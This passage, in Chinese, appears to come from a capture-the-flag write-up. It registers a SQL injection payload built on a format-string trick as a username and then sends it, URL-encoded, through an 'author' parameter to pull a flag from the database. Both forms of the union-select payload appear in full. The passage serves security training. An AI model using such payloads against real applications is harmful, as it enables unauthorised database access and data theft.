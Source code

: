 注册成功，数据库中成功第插入了我们的payload。

![](img/20180121-2.jpg)


以`%1$%s and 0 union select 1,1,1,flag from flag#`作为用户名进行登录。由于之前已经注册成功，所以能够通过验证，之后进入到`index.php`中获取文章内容。

![](img/20180121-3.jpg)


我们需要通过`author`传入我们的payload。
`index.php?action=view&mod=index&1516529444&author=%251%24%25s%20and%200%20union%20select%201%2C1%2C1%2Cflag%20from%20flag%23`

![](img/20180121-5.jpg)
